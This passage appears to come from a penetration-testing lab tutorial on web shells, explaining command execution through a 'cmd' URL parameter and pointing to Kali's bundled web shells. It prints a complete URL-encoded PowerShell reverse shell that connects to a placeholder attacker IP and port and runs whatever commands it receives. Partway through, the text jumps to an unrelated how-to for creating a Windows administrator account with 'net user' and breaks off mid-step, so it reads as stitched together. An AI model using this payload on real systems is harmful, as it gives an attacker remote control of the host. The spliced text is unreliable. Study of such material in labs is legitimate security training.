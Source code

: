 Let's see this in action:



Notice that when navigating the shell, we used a GET parameter "cmd" with the command "ifconfig", which correctly returned the network information of the box. In other words, by entering the ifconfig command (used to check the network interfaces on a Linux target) into the URL of our shell, it was executed on the system, with the results returned to us. This would work for any other command we chose to use (e.g. whoami, hostname, arch, etc).

As mentioned previously, there are a variety of webshells available on Kali by default at /usr/share/webshells -- including the infamous PentestMonkey php-reverse-shell -- a full reverse shell written in PHP. Note that most generic, language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux webservers. They will not work on Windows by default.

When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the cmd argument:

powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22

This is the same shell we encountered in Task 8, however, it has been URL encoded to be used safely in a GET parameter. Remember that the IP and Port (bold, towards end of the top line) will still need to be changed in the above code.

Here's how to add a user and assign them administrator privileges from the command line in Windows:

**1. Open Command Prompt as Administrator:**

- Press the **Windows key + X** and select **Command Prompt (Admin)**.
- Alternatively, search for "cmd" in the Start menu, right-click on "Command Prompt," and choose "Run as administrator."

**2. Create the User:**

Use the following command, replacing `username` with your desired username and `password` with a strong password (enclose the password in quotes if it contains spaces):

```
net user username password /add
```

**Example:**

```
net user newuser "StrongP@ssword123" /add
```

**3. Add User to Administrators Group:**

Use this command, replacing `username` with the username you just created:
